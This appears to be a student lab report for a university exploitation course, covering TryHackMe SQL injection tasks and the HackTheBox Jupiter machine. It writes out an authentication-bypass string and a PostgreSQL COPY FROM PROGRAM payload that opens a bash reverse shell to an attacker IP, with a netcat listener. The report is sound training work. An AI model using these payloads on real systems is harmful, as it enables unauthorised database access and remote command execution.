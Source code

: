 # Lab 02 - Injection

## Part 1a - TryHackMe

_Observe the resolution ans quizz answers at [TryHackMe Resolution](./TryHackMe%20_%20SQL%20Injection.pdf) pdf file.\_

### Scope

The objective of this machine was to explore the types of exploitation and methods of interaction during an SQL Injection attack.

One is expected to have explored:

-   **Types of SQL Injection**: Exploring various types of SQL injection attacks, such as In-Band SQL Injection, Blind SQL Injection and Time-Based Blind SQL Injection.
-   **Tools and Techniques**: Learning about tools like SQLMap and manual techniques to identify and exploit SQL injection vulnerabilities.
-   **Mitigation**: Understanding how to prevent SQL injection by implementing security measures like input validation and parameterized queries.

The main task that demand exploration from the user are task 5 through 8.

### Task 5 - In-Band SQL Injection

In-band SQL injection is a type of SQL injection attack where an attacker uses the same communication channel, such as the application's response, to both inject malicious SQL code and retrieve the results of the injected query.

One starts by exploring the response of the service to SQL statements, and an exposed _Error_ message is ideal.

![01](./prints/Screenshot%20at%202023-10-06%2014-16-26.png)

As we can see, the tables have a **different number of columns**, so we will add columns until it matches. Which in this case is three.

![02](./prints/Screenshot%20at%202023-10-06%2014-17-01.png)

<P style="page-break-before: always">

Now that the number or columns is guessed, we can request other information like the database name.

![03](./prints/Screenshot%20at%202023-10-06%2014-17-17.png)

Knowing the database name, we'll view all the available tables within it.

![03](./prints/Screenshot%20at%202023-10-06%2014-17-33.png)

<P style="page-break-before: always">

The `staff_users` table should be visited as information regarding users is always prone to have sensitive information.

![04](./prints/Screenshot%20at%202023-10-06%2014-17-48.png)

Sure enough, it does contain usernames and passwords that we can use to ingress further in the website.

![05](./prints/Screenshot%20at%202023-10-06%2014-18-17.png)

<P style="page-break-before: always">

### Task 6 - Blind SQLi

Blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless.

First let's try to log in with random credentials to see what the response is.

![06](./prints/Screenshot%20at%202023-10-06%2014-21-20.png)

We can observe that the SQL query that is being formed does not sanitize the user input, that is covinient has we can bypass the authentication by forcing the query to always return **True** by inputting ` OR 1=1; --`

![07](./prints/Screenshot%20at%202023-10-06%2014-21-26.png)

### Task 7 - Boolean Based Blind SQLi

Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false,yes/no, on/off, 1/0 or any response which can only ever have two outcomes.

Since all we know is that the querie will either return `true` or `false`, we must experiment all possible option that result in a true evaluation. Only when one option returns true, can we processed with the next value of the querie.

![08](./prints/Screenshot%20at%202023-10-06%2014-23-44.png)

![09](./prints/Screenshot%20at%202023-10-06%2014-24-46.png)

<P style="page-break-before: always">

Some values we can infer based on the pattern of the already known infrastructure.

![10](./prints/Screenshot%20at%202023-10-06%2014-27-26.png)

![11](./prints/Screenshot%20at%202023-10-06%2014-34-21.png)

<P style="page-break-before: always">

For more realistic values, a brute force tool will be absolutely essential for guessing large amounts of values in short periods of time.

![12](./prints/Screenshot%20at%202023-10-06%2014-42-43.png)

But eventually, we will be able to guess the password.

![13](./prints/Screenshot%20at%202023-10-06%2014-43-18.png)

<P style="page-break-before: always">

### Task 8 - Time Based Blind SQLi

A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete.

For our first attempt, when guessing the number of columns, we will indicate a _sleeping_ time of 5 seconds. If the response to this query takes this long to be retrieved, we will now we are matching the query parameters.

![14](./prints/Screenshot%20at%202023-10-06%2014-44-30.png)

Knowing this, the procedure will now be the same as the other injection types. We will begin by guessing the database name, followed by searching for a table with sensitive information and hopefully retrieve information that allows us to log in.

![15](./prints/Screenshot%20at%202023-10-06%2014-49-13.png)

![16](./prints/Screenshot%20at%202023-10-06%2015-15-16.png)

<P style="page-break-before: always">

## Part 1b - Jupiter HTB Machine

Starting from the last report (Lab01), we had discovered 3 crucial information about the Jupiter machine:

1. By mapping the ports, we discoverd **port 80** exposed, which lead to the domain **jupiter.htb**
2. By fuzzing for subdomains, we discoverd **`kiosk`** to be a subdomain.
3. `kiosk` takes us to a Grafana dashboard, exposing graphs and various data.

![17](../Lab01/JupiterVM/00-nmap.png)

![18](../Lab01/JupiterVM/01-firefox.png)

![19](../Lab01/JupiterVM/03-fuzz-subdomain.png)

![20](../Lab01/JupiterVM/04-grafana.png)

One thing I always like to do when visiting _hidden_ pages, is proxy and intercept all packets. This pages are hidden for a reason, and maybe is due to laziness when fixing vulnerable services.

![21](./prints/2023-10-10_10-41.png)

Lets proxy all our traffic through BurpSuit using _Proxy_. We can click on `forward` to let the page further render until we find some interesting packets. Sure enough we find the request for data to fill the graphs, and interesting enough, there is raw SQL query in them.

![22](./prints/2023-10-10_10-45.png)

<P style="page-break-before: always">

With BurpSuite, we can now them this request to the _Repeater_ were we will be able to manipulate, re-send the request, and observe the responses.

![23](./prints/2023-10-10_10-48.png)

<P style="page-break-before: always">

The obvious thing to do is to manipulate the SQL query and discover if it sanitizes the values given to it. We discover that it does not and the query is intact, as visible in the response, this means that we can pass custom queries to the database.

![24](./prints/2023-10-10_10-56.png)

Searching the community, we discoverd that a payload for [Postgres SQL already exists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193)! Lets exploit it by passing whatever program we desired.

![25](./prints/2023-10-10_11-00.png)

<P style="page-break-before: always">

In this scenario, for optimal communication, a reverse shell would be an ideal scenario, lets use it. By creating a query payload that forces the server to connect via TCP, we can run _netcat_ in our attacking VM to accept incoming connections.

``` SQL
CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i 
>& /dev/tcp/<ip>/6969 0>&1\"' 
```

![23](./prints/2023-10-10_11-10.png)

> _Make sure to allow the port 6969 through your firewall if needed._

Run the _netcat_ command in your terminal: `nc -nvlp 6969`

Send the request, and sure enough, the connection is established.

![24](./prints/2023-10-10_11-09.png)

# Author

David José Araújo Ferreira, 93444 - [davidaraujo@ua.pt](mailto:davidaraujo@ua.pt)

Report submitted for the Lab 02 of _Analysis and Vulnerability Exploitation_ course at the University of Aveiro.
